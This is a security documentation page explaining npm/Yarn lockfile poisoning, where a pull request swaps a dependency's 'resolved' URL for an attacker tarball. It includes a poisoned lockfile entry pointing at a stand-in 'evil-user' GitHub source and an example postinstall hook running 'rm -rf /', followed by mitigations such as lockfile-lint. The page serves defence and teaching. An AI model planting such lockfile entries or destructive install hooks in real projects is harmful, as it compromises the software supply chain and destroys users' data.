 ```yaml
---
name: Lockfile
menu: Attacks explained
route: /attacks_explained/lockfile
---
```


# Lockfile Attack



## The Attack

This attack is very specific to Nodejs ecosystem and it [was discovered in 2019](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/) by [Liran Tal](https://twitter.com/liran_tal).

It is quite common to include external dependencies in Nodejs. The ecosystem is heavily based in [NPM Registry (+1M packages)](https://www.npmjs.com/).

Most projects manage their dependencies using Npm official client or Yarn. Since few years ago both tools introduced the lockfile concept to the ecosystem (`package-lock.json` and `yarn.lock`).

If the project have a lockfile available the package manager will install the dependencies from the lockfile as a primary source of truth. This lead us to a new vector where a malicious actor can submit a poison dependency trough the lockfile as most of the maintainers doesn't review the lockfiles during the PR Reviews.

This is regular `package-lock.json`.

```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://registry.npmjs.org/@babel/code-frame/-/code-frame-7.8.3.tgz",
      "integrity": "sha512-a9gxpmdXtZEInkCSHUJDLHZVBgb1QS0jhss4cPP93EW7s+uC5bikET2twEF3KV+7rDblJcmNvTR7VJejqd2C2g==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

The malicious attack take place when the `resolved` and `integrity` are not corresponding to official sources:


```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://github.com/evil-user/code-frame/tarball/master",
      "integrity": "sha512-VT0ZI6kZRdTh8YyJw3SMbYm/u+NqfsAxEpWO0Pf9sq8/e94WxxOpPKx9FR1FlyCtOVDNOQ+8ntlqFxiRc+r5qA==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

So the risk is that in this case is that `@babel/code-frame` is not installed from the NPM registry. This can lead to many attacks based on the npm lifecycle (pre-install, post-install...)

As an example of malicious script added in the poisoned version of `@babel/code-frame`
```
"scripts": {
   "postinstall": "rm -rf /",
}
```

## The solution

There are no definitive solutions to avoid this attack but can be highly mitigated.

## Mitigation

- Always review the lockfiles in the PRs.
- Use a tool to check the lockfile sources enables like `lockfile-lint`
    ```bash
    npx lockfile-lint --path yarn.lock --type yarn --validate-https --allowed-hosts yarnpkg.org
    ```
- Include the validation tools in the CI process (testing phase and security checks)
- Optional: You can include the sources validation with Git Hooks too (using Husky)


### Refs
- [Snyk | What is package lock json and how a lockfile works for yarn and npm packages?](https://snyk.io/blog/what-is-package-lock-json/)
- [Snyk | Why npm lockfiles can be a security blindspot for injecting malicious modules](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/)
- [Medium | Everything You Wanted To Know About package-lock.json But Were Too Afraid To Ask](https://medium.com/coinmonks/everything-you-wanted-to-know-about-package-lock-json-b81911aa8ab8)